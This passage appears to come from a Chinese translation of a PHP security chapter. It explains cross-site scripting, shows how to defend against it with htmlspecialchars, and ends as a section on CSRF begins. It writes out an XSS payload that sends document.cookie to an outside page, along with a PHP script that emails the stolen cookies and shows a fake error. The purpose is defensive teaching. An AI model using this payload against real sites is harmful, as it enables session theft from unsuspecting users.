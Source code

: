 在一个表单中显示先前输入的值是很常见的，我在第四章的许多例子中就是这么做的。

现在，假设一个恶意用户输入了图 6-2 所示的数据。

![9781430260073_Fig06-02.jpg](img/9781430260073_Fig06-02.jpg)

图 6-2 。恶意数据进入表单

有了这个条目，单击按钮后，PHP 编写的表单域就变成了(添加了换行符)

```php
<input type=text name=field size=115 value=''>
<script>window.location=" http://basepath.com/retryaction.php ?
data=" + document.cookie;</script><x ''>
```

并且 JavaScript 被执行。它会将所有的 cookie(`document.cookie`)作为参数发送到 web 页面`retryaction.php`，攻击者已经将其编码为

```php
mail(' cookie@basepath.com ', 'cookie', $_REQUEST['data']);
echo <<<EOT
Sorry, the web server was unable to process the command.
Please try again.
EOT;
```

它通过电子邮件将 cookies 发送给攻击者，然后向用户显示一条消息，用户认为服务器出现了某种问题。(当然有——防 XSS 失败！)

在我的例子中，没有危险，因为“恶意”用户也是授权用户。但是，假设这是一个允许用户发布消息供他人阅读的社交网站。一条消息可能包含与示例格式类似的 JavaScript，然后该 JavaScript 将由阅读该消息的每个人执行，可能有数百人。他们甚至不需要点击任何东西——仅仅查看消息就足够了。攻击者现在拥有该站点所有人的 cookies。

显然，XSS 是相当认真的。但是，通过确保写入浏览器的任何用户提供的值都正确转义了 HTML 字符，您可以从应用中完全消除它。真正重要的是`<`，但是避开它们是个好主意，即使只是为了表面上的原因。

这就是为什么在我之前的所有例子中，我总是使用`htmlspecialchars`函数来处理用户提供的写入浏览器的任何内容。正如我在第四章中展示的，我使用了便利函数。

```php
function htmspecial($s) {
    return htmlspecialchars($s, ENT_QUOTES, 'UTF-8');
}
```

所以，如果你努力使用`htmlspecialchars`，你就可以免受 XSS 的攻击。如果您确实希望允许用户提供带格式的文本，要么使用 Markdown ( 第二章)或者，如果您必须允许 HTML，对输入进行完整的解析，这样您就可以过滤掉任何恶意的内容，比如 JavaScript、按钮或表单。

最近，一些浏览器已经实现了部分 XSS 保护，方法是检查请求中是否出现了任何已执行的脚本，在前面的示例中就是这种情况，因为脚本出现在 POST 数据中。这种保护(在谷歌 Chrome 中称为 XSS 审计员)是有帮助的，但它不是一个完整的解决方案，所以继续使用`htmlspecialchars`。

跨站请求伪造

跨站请求伪造(CSRF)与 XSS 完全不同，甚至没有以同样的方式缩写“跨站”。XSS 攻击包括将脚本注入到应用生成的 HTML 页面中。CSRF 涉及一个完全不同的应用，它试图代表一个没有怀疑但经过授权的用户向您的应用发送请求。
